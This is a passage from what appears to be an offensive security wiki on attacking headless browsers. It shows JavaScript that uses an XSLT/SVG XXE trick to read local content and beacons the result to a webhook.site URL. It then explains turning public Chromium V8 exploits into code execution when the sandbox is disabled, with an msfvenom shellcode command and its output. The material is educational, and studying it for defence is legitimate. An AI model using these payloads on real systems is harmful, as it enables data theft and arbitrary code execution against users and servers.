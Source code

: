    const blob = new Blob(
      [
        `&#x3C;?xml version="1.0" encoding="UTF-8"?>
    &#x3C;?xml-stylesheet type="text/xsl" href="data:text/xml;base64,${btoa(xls)}"?>
    &#x3C;!DOCTYPE svg [
        &#x3C;!ENTITY ent SYSTEM "?" NDATA aaa>
    ]>
    &#x3C;svg location="ent" />`,
      ],
      { type: "image/svg+xml" }
    );
    const url = URL.createObjectURL(blob);
    const w = window.open(url);
    const interval = setInterval(() => {
      if (w.document.readyState === "complete") {
        clearInterval(interval);
        const leak = w.document.querySelector("xxe").innerHTML;
        w.close();
<strong>        navigator.sendBeacon("https://webhook.site/...", leak);
</strong>      }
    }, 1000);
  &#x3C;/script>
&#x3C;/body>
</code></pre>

### JavaScript V8 without sandbox (<= 127)

[V8](https://v8.dev/) is the name of the JavaScript engine in Chromium, and because of its complexity and speed requirements, has had a lot of vulnerabilities involving memory corruption. The scripting nature of JavaScript makes these often easy to exploit because some primitives just need to be built in order to simply script out an attack as you normally would.

One fact that makes headless setups especially more vulnerable is their common use of `--no-sandbox`, because when running as `root` this option is required to make the browser work. You'll even often see this argument added when it's not strictly needed, just because it is so common.\
What you need to know is that it **disables the renderer sandbox**, essentially making any JavaScript that runs arbitrary instructions able to run shellcode on the system. Many exploits do this, but stop at the sandbox, perfect!

We just need to find a public chrome issue with a fully-written PoC, where you can often just substitute the built-in shellcode for anything you need.

{% embed url="https://jopraveen.github.io/web-hackthebot/" %}
Article explaining an unintended solution to an XSS challenge using a Chrome V8 exploit
{% endembed %}

The above writeup uses [Chromium issue 365802567](https://issues.chromium.org/issues/365802567) with a downloadable [HTML PoC](https://issues.chromium.org/action/issues/365802567/attachments/59303131?download=false). The code contains a `sc` variable standing for "shellcode", set to a Windows x86-64 `calc.exe` payload. We can change this easily for a Linux system, for example, by compiling new [shellcode.md](../../binary-exploitation/shellcode.md "mention"):

<pre class="language-shell-session" data-overflow="wrap"><code class="lang-shell-session"><strong>$ msfvenom -p linux/x64/exec CMD='id>/tmp/pwned' -f powershell
</strong>
[Byte[]] $buf = 0x48,0xb8,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x0,0x99,0x50,0x54,0x5f,0x52,0x66,0x68,0x2d,0x63,0x54,0x5e,0x52,0xe8,0xe,0x0,0x0,0x0,0x69,0x64,0x3e,0x2f,0x74,0x6d,0x70,0x2f,0x70,0x77,0x6e,0x65,0x64,0x0,0x56,0x57,0x54,0x5e,0x6a,0x3b,0x58,0xf,0x5
</code></pre>
